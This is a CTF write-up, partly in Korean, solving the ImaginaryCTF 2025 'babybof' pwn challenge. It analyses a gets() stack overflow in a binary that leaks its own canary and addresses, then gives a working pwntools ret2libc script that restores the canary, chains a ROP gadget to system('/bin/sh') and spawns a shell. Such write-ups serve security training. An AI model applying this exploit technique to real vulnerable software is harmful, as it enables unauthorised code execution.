 # babybof - Imaginary
## Challenge Info
- Date: 2025
- CTF Name: Imaginary
- Category: pwn
- Difficulty (subjective): easy
- Points: 100
- Provided Files: vuln(ELF)
- tools: gdb(pwndbg), checksec, pwntool
## Brief Description
welcome to pwn! hopefully you can do your first buffer overflow
## Initial Analysis
### Environment
``` sh
checksec vuln
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
### Code
``` c
undefined8 main(void) {
    long in_FS_OFFSET;
    undefined8 unaff_retaddr;
    undefined buf [56];
    long canary;

    canary = *(long *)(in_FS_OFFSET + 0x28);
    setbuf(stdin,(char *)0x0);
    setbuf(stdout,(char *)0x0);
    puts("Welcome to babybof!");
    puts("Here is some helpful info:");
    printf("system @ %p\n",system);
    printf("pop rdi; ret @ %p\n",0x4011ba);
    printf("ret @ %p\n",0x4011bb);
    printf("\"/bin/sh\" @ %p\n",sh);
    printf("canary: %p\n",canary);
    printf("enter your input (make sure your stack is aligned!): ");
    FUN_004010c0(buf); // gets(buf);
    printf("your input: %s\n",buf);
    printf("canary: %p\n",canary);
    printf("return address: %p\n",unaff_retaddr);
    if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
    }
    return 0;
}
```
카나리, PIE 등의 보호기법이 적용되어 있지만, Return 2 Libc에 필요한 정보를 출력한다.   
## Vulnerability
### BOF(Buffer Overflow)
``` c
FUN_004010c0(buf); // gets(buf);
```
`gets`함수 사용으로 인해, BOF 취약점이 발생한다. 
## Exploit
### Strategy
Return 2 Libc에 필요한 정보를 모두 제공하기 때문에 단순하게 payload만 작성하면 된다.  
### Exploitation Steps
### Stack Frame of main
| Variable Name | Offset from RBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| canary | -0x8 |
| buf | -0x40 |
### payload
``` python
from pwn import *

p = remote('babybof.chal.imaginaryctf.org', 1337)
context.arch = "amd64"

# get info
p.recvuntil(b'system @ ')
system_addr = int(p.recvline().strip(b'\n'), 16)
log.info(f'system_addr: {hex(system_addr)}')
p.recvuntil(b'pop rdi; ret @ ')
pop_rdi_ret = int(p.recvline().strip(b'\n'), 16)
log.info(f'pop_rdi_ret: {hex(pop_rdi_ret)}')
p.recvuntil(b'ret @ ')
ret = int(p.recvline().strip(b'\n'), 16)
log.info(f'ret: {hex(ret)}')
p.recvuntil(b'\"/bin/sh\" @ ')
bin_sh = int(p.recvline().strip(b'\n'), 16)
log.info(f'bin_sh: {hex(bin_sh)}')
p.recvuntil(b'canary: ')
canary = int(p.recvline().strip(b'\n'), 16)
log.info(f'canary: {hex(canary)}')

# payload
payload = b''
payload += b'A' * 0x38 + p64(canary) + b'B' * 0x8
payload += p64(ret) + p64(pop_rdi_ret) + p64(bin_sh) + p64(system_addr)
p.sendafter(b'enter your input (make sure your stack is aligned!): ', payload)

# interactiv
p.interactive()
```